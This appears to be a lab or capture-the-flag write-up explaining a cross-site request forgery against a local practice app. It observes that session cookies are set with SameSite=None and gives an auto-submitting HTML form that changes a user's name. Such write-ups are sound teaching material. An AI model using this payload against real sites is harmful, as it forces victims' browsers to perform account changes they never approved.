


## CSRF
## Challenge: Change the name of a user by performing Cross-Site Request Forgery from another origin.
### Category: Broken Access Control


When login as any user, observe that cookies have `SameSite` attribute is set to "None". `SameSite` Attributes can control whether and how cookies are submitted in cross-site requests.




If `SameSite=None` is used, then it means that there are No restrictions (relaxed policy). Then browser will include session cookies automatically to requests regardless of where they **originate**

### PoC of how this is can be exploited
If an attacker can 'trick' you to click on this html, it can cause  CSRF attack by **Making the victim do an action on the attacker's behalf.**

1. Intercept the request of change username



2. create the HTML exploit (ideally, victim will click this page and the exploit will be triggered automatically via javascript)

```html
<html>

<form action="http://127.0.0.1:3000/profile" method="POST">
        <input name="username" value="ChangedByCSRFhtml"/>
        <input type="submit"/>
</form>

<script>document.forms[0].submit();</script>
</html>  
```

Note: This challenge may not be solved unless an older browser is used
